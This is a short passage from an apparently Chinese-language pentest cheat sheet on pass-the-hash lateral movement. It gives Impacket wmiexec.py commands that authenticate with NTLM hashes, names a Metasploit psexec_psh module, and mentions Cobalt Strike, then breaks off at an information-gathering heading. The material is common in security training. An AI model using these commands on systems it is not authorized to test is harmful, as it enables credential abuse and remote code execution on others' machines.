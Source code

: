 举例说明

```bash
python wmiexec.py -hash LMhash:NThash username@ipaddress
python wmiexec.py -hashes :NThash username@ipaddress
```

**3.msf**

```bash
use exploit/windows/smb/psexec_psh
```

![](assets/1710388326-545542663c2d9949a9c8bf8273473947.png)

**4.CobalStrike**

![](assets/1710388326-9dcec0dc9f67c31562911e1a2db16550.png)

### 2、信息收集
